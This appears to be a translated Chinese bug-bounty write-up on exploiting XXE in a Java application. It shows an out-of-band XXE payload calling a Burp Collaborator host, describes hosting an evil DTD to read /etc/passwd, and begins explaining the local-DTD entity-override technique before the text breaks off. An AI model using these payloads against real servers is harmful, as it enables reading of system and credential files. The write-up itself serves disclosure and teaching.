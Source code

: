 # 0x04 XXE OOB

我想跳过所有的这些麻烦，并使用 OOB 技术来通过 FTP 检索文件，因为 app 服务器是 JAVA 技术的并为此使用了 burp collaborator，而且还使用了参数实体而不是常规实体。

```plain
<!DOCTYPE a[
<!ENTITY % x SYSTEM " http://something.burpcollaborator.net"> %x;
]>
<root>
<id>1</id>
<name>test</name>
</root>
```

并通过测试后，知道此处不允许 HTTP 带外（我试了很多次，但是没有成功）

# 0x05 通过子域进行 OOB XXE

一周后，我在一个子域测试中发现了一个 RCE，出于好奇，我在其中托管了一个邪恶的 DTD 文件，以通过此 XXE 在那读取/ etc / passwd，并返回了服务器错误消息和像这样在 Response 本身中显示文件内容：[https](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/) : [//blog.netspi.com/forcing-xxe-reflection-server-error-messages/](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/)  
：D  
因为可能是该子域被列入白名单，能够建立带外的连接。  
该公司增加了少量奖金，希望我在不利用已经报告的 RCE 的情况下利用此 XXE 获得全部奖励。

# 0x06 使用 DTD 利用 XXE（不通过 OOB）

在很长一段时间，我无法利用，但随后[https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html](https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html)  
来了，给了希望。他列出了系统中可能已经存在的一些常见 DTD，以及如何通过简单地覆盖/替换 DTD 中已存在的实体来将它们用于 XXE 以便将 XXE 用于文件读取。但是，该博客上列出的那些 DTD 都不存在于我的目标服务器上。

# 0x07 本地 DTD 技术的简介

如果发现任何 DTD 文件已经存在于目标服务器文件系统的某个位置，该文件由参数实体（例如`<!ENTITY % injectable "something">`）组成，并且在该 DTD 本身的某个位置被饮用（例如`<!ENTITY % random (%injectable;)>`）。然后，我们基本上可以覆盖该实体的内容，而只需在 OOB 中的外部 evil.dtd 中编写将要执行的操作。例如如果服务器上存在 legit.dtd

**/usr/share/xyz/legit.dtd:**

```plain
..
<!ENTITY % injectable "something">
..
<!ENTITY % random (%injectable;)>
..
..
```

如果您在 XXE 中添加以下内容
